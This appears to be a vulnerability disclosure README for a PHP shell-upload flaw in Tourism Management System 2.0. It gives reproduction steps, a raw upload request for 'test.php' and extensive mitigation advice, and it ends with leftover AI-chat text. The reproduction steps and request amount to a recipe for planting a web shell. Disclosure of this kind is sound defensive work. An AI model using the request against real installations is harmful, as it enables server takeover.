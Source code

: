 # Shell Upload Vulnerability in Tourism Management System 2.0

## Description

This repository highlights a **Shell Upload vulnerability** in **Tourism Management System 2.0**. The vulnerability allows an attacker to upload and execute arbitrary PHP shell scripts on the server, leading to **remote code execution** and **unauthorized access** to the system. This can result in the compromise of sensitive data and system functionality.

## Affected Version

- **Tourism Management System 2.0**

## Impact

Exploitation of this vulnerability can have serious consequences, including:

- **Remote Code Execution (RCE)**: Attackers can upload malicious PHP scripts and execute them on the server.
- **Unauthorized Access**: Attackers can gain unauthorized control over the system.
- **Data Compromise**: Sensitive information and system functionality can be exposed or manipulated.

## Steps to Reproduce

1. **Login to Admin Panel**: Use valid credentials to log in to the admin panel.
2. **Create Tour Package**: Navigate to the "Create Tour Package" section.
3. **Upload Malicious PHP File**: In the "Package Image Upload" field, upload a PHP file (e.g., `test.php`).
4. **Submit Form**: Fill in the necessary form fields and submit the package.
5. **Check Uploaded File**: After the upload is complete, verify that the PHP file has been uploaded and is executable.

## Example Request Data

Here is an example of the HTTP request used to upload the PHP file:

```http
POST /admin/change-image.php?imgid=3 HTTP/1.1
Host: 192.168.1.74
Connection: close
Content-Length: 307
Cache-Control: max-age=0
sec-ch-ua: "Not;A=Brand";v="99", "Brave";v="139", "Chromium";v="139"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://192.168.1.74
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZPFQDKk0hvosDupP
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.6
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.1.74/admin/change-image.php?imgid=3
Accept-Encoding: gzip, deflate
Cookie: ui_session=2986ad8c0a5b3df4d7028d5f3c06e936c68a16a9283ab6ef697744491a9f9d7497aca3add81903ee1c9841fe7d6195a22a4641dc4ccab5ddc917638bb655e1ff5; PHPSESSID=713r9ihcoks4p4se1isaia5u49

------WebKitFormBoundaryZPFQDKk0hvosDupP
Content-Disposition: form-data; name="packageimage"; filename="test.php"
Content-Type: application/html

------WebKitFormBoundaryZPFQDKk0hvosDupP
Content-Disposition: form-data; name="submit"

------WebKitFormBoundaryZPFQDKk0hvosDupP-- 
...

## Mitigation and Recommendations

To mitigate the **Shell Upload vulnerability** in the Tourism Management System 2.0 and prevent attackers from uploading and executing malicious files, consider implementing the following security measures:

### 1. **Restrict File Types**
   - Only allow file uploads for specific types of files that are required for the application. In this case, only image files (such as `.jpg`, `.png`, `.gif`) should be allowed.
   - **Validation on both client and server side**:
     - On the **client side**, ensure that the file type is validated before submission.
     - On the **server side**, check the file extension and MIME type of the uploaded file to ensure it is a valid image format and not an executable (e.g., `.php`, `.exe`).

### 2. **File Content Inspection**
   - Use content-based validation to ensure the uploaded file's content matches its extension and MIME type. For example, even if a file has a `.jpg` extension, its content might not be an image. Implement the following:
     - **Check MIME type**: Verify the MIME type returned by the `fileinfo()` function or a similar method.
     - **Check file signatures**: Use methods to inspect the file header and verify that it corresponds to the expected format (e.g., `magic bytes` for images).
     
### 3. **Disable PHP Execution in Uploaded Folders**
   - **Prevent script execution** in directories where user uploads are stored. This can be achieved by adding a `.htaccess` file (for Apache) or configuring your web server to prevent execution in certain directories.
     - Example for Apache:
       ```apache
       <Files *.php>
           Deny from all
       </Files>
       ```
     - Example for Nginx:
       ```nginx
       location ~* \.php$ {
           deny all;
       }
       ```

### 4. **Rename Uploaded Files**
   - Rename the uploaded files using a random string or UUID to avoid predictable file names. This will make it difficult for attackers to guess the names of uploaded files and potentially execute them.

### 5. **Limit File Upload Size**
   - Set limits on the size of files that can be uploaded. Large file uploads could be a sign of malicious activity, and limiting file sizes can reduce the risk of abuse.
   - Example: Set a maximum file size for uploads (e.g., 2MB for images).

### 6. **Use Web Application Firewalls (WAF)**
   - Implement a **WAF** to filter and monitor HTTP requests for malicious payloads. Many WAFs come with predefined rules to block common attacks, including file upload exploits.
   - WAFs like **Cloudflare**, **ModSecurity**, or **AWS WAF** can help block malicious file uploads in real-time.

### 7. **Enable Security Headers**
   - Ensure that proper security headers are set to protect against certain attacks:
     - **X-Content-Type-Options**: Prevents browsers from interpreting files as a different MIME type.
     - **Content-Security-Policy (CSP)**: Prevents the execution of inline scripts and loading of unauthorized resources.
     - **Strict-Transport-Security (HSTS)**: Forces clients to communicate with the server over HTTPS.

### 8. **Monitor and Audit File Uploads**
   - Regularly audit and log all file upload actions. Keep detailed logs of which files are uploaded, by whom, and any errors that occur during the upload process. Set up an alerting mechanism to notify administrators of any suspicious activity, such as the upload of executable files or files with unusual extensions.

### 9. **Conduct Regular Security Audits and Penetration Testing**
   - Conduct **regular vulnerability assessments**, security audits, and **penetration testing** to ensure your system is secure and that vulnerabilities like this are caught early.
   - Utilize automated vulnerability scanning tools as well as manual testing methods to identify potential weaknesses in the system.

### 10. **User Role Management**
   - **Limit the permissions** of users who can upload files. If file uploads are not necessary for all users, restrict access to only those who need it (e.g., administrators or trusted users).
   - Ensure that users cannot **upload files with administrative privileges** unless absolutely required for their role.

---

Implementing these measures will significantly reduce the risk of Shell Upload vulnerabilities and other file upload-related attacks. The goal is to make the system more resilient and protect it from unauthorized access or malicious exploitation.

### Key Points:
- The README provides a detailed explanation of the vulnerability, its impact, and how to reproduce the issue.
- It also includes recommended mitigations to help secure the system.
- I've formatted the example HTTP request to make it easy for users to understand the exact steps.

Feel free to adjust any sections as needed!
